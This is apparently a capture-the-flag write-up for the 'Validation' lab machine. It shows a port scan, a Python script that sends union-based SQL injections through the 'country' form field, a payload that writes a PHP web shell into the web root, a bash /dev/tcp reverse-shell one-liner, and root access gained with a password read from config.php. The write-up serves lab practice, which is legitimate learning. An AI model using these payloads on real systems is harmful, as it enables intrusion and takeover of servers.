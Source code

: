 # Validation Write-Up

Easy

Tags:
`SQLi second order`
`global-pw`


## Intro

1. Modify post request to inject SQL to upload bash shell
2. Send request to connect reverse shell
3. Read config.php to get global password
4. Switch user as root

## Enumeration

### Port scanning

```
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```

## Exploit

```
Cookie: user=098f6bcd4621d373cade4e832627b4f6
username=test&country=Brazil
```

SQL injectin in country parameter


```py
import random
import requests
from bs4 import BeautifulSoup
from cmd import Cmd


class Term(Cmd):

	prompt = "> "

	def default(self, args):
		name = f'{random.randrange(1000000,9999999)}'
		res = requests.post(
			'http://<target-id>',
			headers={
				"Content-Type": 'application/x-www-form-urlencoded'
			},
			data={
				"username": name,
				"country": f"' union {args};-- -"
			}
		)
		soup = BeautifulSoup(res.text, 'html.parser')
		if soup.li:
			print('\n'.join([x.text for x in soup.findAll('li')]))
	
	def do_quit(self, args):
		return 1

term = Term()
term.cmdloop()
```

```
country' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

send request to execute command

```
http://<target-id>/shell.php?cmd=<command>
```

use bash shell

```bash
bash+-c+'bash+-i+>%26+/dev/tcp/<local-ip>/<port>+0>%261'
```

nc listener

switch use

```
su -
```

global pw in config.php

## Reference

https://0xdf.gitlab.io/2021/09/14/htb-validation.html